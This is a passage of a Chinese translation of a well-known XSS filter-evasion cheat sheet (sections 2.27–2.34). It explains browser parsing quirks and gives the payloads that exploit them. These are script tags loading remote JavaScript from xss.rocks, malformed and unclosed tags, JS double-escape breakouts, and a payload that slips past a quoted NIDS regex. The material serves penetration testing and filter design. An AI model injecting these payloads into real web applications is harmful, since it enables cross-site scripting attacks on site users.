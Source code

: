 <IMG SRC=” &#14;  javascript:alert(‘XSS’);”>

2.27.    利用非字母非数字字符
FireFox的HTML解析器认为HTML关键词后不能有非字母非数字字符，并且认为这是一个空白或在HTML标签后的无效符号。但问题是有的XSS过滤器认为它们要查找的标记会被空白字符分隔。例如”<SCRIPT\s” != “<SCRIPT/XSS\s”:

<SCRIPT/XSS SRC=”http://xss.rocks/xss.js“></SCRIPT>

基于上面的原理，可以使用模糊测试进行扩展。Gecko渲染引擎允许任何字符包括字母，数字或特殊字符（例如引号，尖括号等）存在于事件名称和等号之间，这会使得更加容易绕过跨站脚本过滤。注意这同样适用于下面看到的重音符:

<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert(“XSS”)>

Yair Amit让我注意到了IE和Gecko渲染引擎有一点不同行为，在于是否在HTML标签和参数之间允许一个不含空格的斜杠。这会非常有用如果系统不允许空格的时候。

<SCRIPT/SRC=”http://xss.rocks/xss.js“></SCRIPT>

2.28.    额外的尖括号
由Franz Sedlmaier提交，这个XSS攻击向量可以绕过某些检测引擎，比如先查找第一个匹配的尖括号，然后比较里面的标签内容，而不是使用更有效的算法，例如Boyer-Moore算法就是查找整个字符串中的尖括号和相应标签（当然是通过模糊匹配）。双斜杠注释了额外的尖括号来防止出现JavaScript错误：

<<SCRIPT>alert(“XSS”);//<</SCRIPT>

2.29.    未闭合的script标签
在Firefox和Netscape 8.1的Gecko渲染引擎下你不是必须构造类似“></SCRIPT>”的跨站脚本攻击向量。Firefox假定闭合HTML标签是安全的并且会为你添加闭合标记。多么体贴！不像不影响Firefox的下一个问题，这不需要在后面有额外的HTML标签。如果需要可以添加引号，但通常是没有必要的，需要注意的是，我并不知道这样注入后HTML会什么样子结束:

<SCRIPT SRC=http://xss.rocks/xss.js?< B >

2.30.    script标签中的协议解析
这个特定的变体是由Łukasz Pilorz提交的并且基于Ozh提供的协议解析绕过。这个跨站脚本示例在IE和Netscape的IE渲染模式下有效，如果添加了</SCRIPT>标记在Opera中也可以。这在输入空间有限的情况下是非常有用的，你所使用的域名越短越好。”.j”是可用的，在SCRIPT标签中不需要考虑编码类型因为浏览器会自动识别。

<SCRIPT SRC=//xss.rocks/.j>

2.31.    只含左尖括号的HTML/JavaScript XSS向量
IE渲染引擎不像Firefox，不会向页面中添加额外数据。但它允许在IMG标签中直接使用javascript。这对构造攻击向量是很有用的，因为不需要闭合尖括号。这使得有任何HTML标签都可以进行跨站脚本攻击向量注入。甚至可以不使用”>”闭合标签。注意：这会让HTML页面变得混乱，具体程度取决于下面的HTML标签。这可以绕过以下NIDS正则:/((\%3D)|(=))[^\n]*((\%3C)|<)[^\n]+((\%3E)|>)/因为不需要”>”闭合。另外在实际对抗XSS过滤器的时候，使用一个半开放的<IFRAME标签替代<IMG标签也是非常有效的。

<IMG SRC=”javascript:alert(‘XSS’)”

2.32.    多个左尖括号
使用一个左尖括号替代右尖括号作为标签结尾的攻击向量会在不同浏览器的Gecko渲染引擎下有不同表现。没有左尖括号时，在Firefox中生效，而在Netscape中无效。

<iframe src=http://xss.rocks/scriptlet.html <

2.33.    JavaScript双重转义
当应用将一些用户输入输出到例如：<SCRIPT>var a=”$ENV{QUERY_STRING}”;</SCRIPT>的JavaScript中时，你想注入你的JavaScript脚本，你可以通过转义转义字符来规避服务器端转义引号。注入后会得到<SCRIPT>vara=”\\”;alert(‘XSS’);//”;</SCRIPT>，这时双引号不会被转义并且可以触发跨站脚本攻击向量。XSS定位器就用了这种方法:

\”;alert(‘XSS’);//

另一种情况是，如果内嵌数据进行了正确的JSON或JavaScript转义，但没有HTML编码，那可以结束原有脚本块并开始你自己的：

</script><script>alert(‘XSS’);</script>

2.34.    闭合title标签
这是一个简单的闭合<TITLE>标签的XSS攻击向量，可以包含恶意的跨站脚本攻击:
